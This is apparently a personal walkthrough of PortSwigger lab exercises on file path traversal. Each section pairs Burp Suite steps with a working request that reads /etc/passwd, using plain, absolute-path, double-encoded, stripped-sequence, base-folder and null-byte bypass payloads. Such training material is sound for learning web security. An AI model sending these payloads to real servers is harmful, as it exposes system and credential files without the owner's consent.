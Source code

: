 # Portswigger
## Directory Traversal
### File path traversal, simple case
```bash

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd HTTP/1.1

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220502215316.png)
![image](https://0xc0rvu5.github.io/docs/assets/images/20220502215543.png)
![image](https://0xc0rvu5.github.io/docs/assets/images/20220502215820.png)
![image](https://0xc0rvu5.github.io/docs/assets/images/20220502215946.png)

### File path traversal, traversal sequences blocked with absolute path bypass
```bash

- use absolute path

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped non-recursively
```bash

- `using ..../ or ....\/`

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.```bash


Send to Repeater

GET /image?filename=....//....//....//....//etc/passwd HTTP/1.1


```

### File path traversal, traversal sequences stripped with superfluous URL-decode
```bash

- non-standard URL encoding

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/1.1

```

### File path traversal, validation of start of path
```bash

- base folder requirement "/var/www/images"

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/1.1


```

### File path traversal, validation of file extension with null byte bypass
```bash

- if a file extension is expected you may be able to use a null byte prior to said extension to terminate the following extension (similar to a comment at the end of an sql statement)

Go To: Proxy
Options
Enable "Intercept responses based on the following rules: Master interception is turned off"
Intercept is on
Click on "View details"

Forward the proxy twice until you see:

GET /image?filename=53.jpg HTTP/1.

Send to Repeater

GET /image?filename=../../../../etc/passwd%00.jpg HTTP/1.1


```

#hacking
